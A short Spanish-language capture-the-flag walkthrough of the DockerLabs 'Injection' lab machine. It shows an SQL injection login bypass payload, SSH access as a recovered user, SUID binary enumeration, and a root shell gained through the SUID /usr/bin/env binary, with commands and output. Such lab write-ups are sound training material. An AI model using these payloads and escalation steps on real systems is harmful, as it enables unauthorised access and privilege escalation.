



# dockerlabs

## Injection

Desplegamos la maquina y nos da una IP la misma es 172.17.0.2.

Tratamos de ingresar al browser a ver si tiene algo corriendo en el puerto 80



Lo cual encontramos una web con un panel de login, siendo que el lab se llama injection vamos a intentar hacer SQLi

Intentando ingresar 

```sql
'OR 1=1;-- -
```

Tanto en el usuario como password se ve puever como ingresamos en el panel de usuario



Viendo que nos llama dylan, tomamos ese usuario y la password que nos dio e intentamos logearnos por ssh



Por lo visto tenemos permiso de ejecuccion como root para `/usr/bin/env`

```shell
dylan@083489cbec93:~$ find / -perm -4000 -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/su
/usr/bin/env
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/umount
dylan@083489cbec93:~$ ls -la /usr/bin/su
-rwsr-xr-x 1 root root 55672 Feb 21  2022 /usr/bin/su
dylan@083489cbec93:~$
```

Lo cual nos permite hacer `env /bin/sh -p`

```shell
dylan@083489cbec93:~$ env /bin/sh -p
# whoami
root
#
```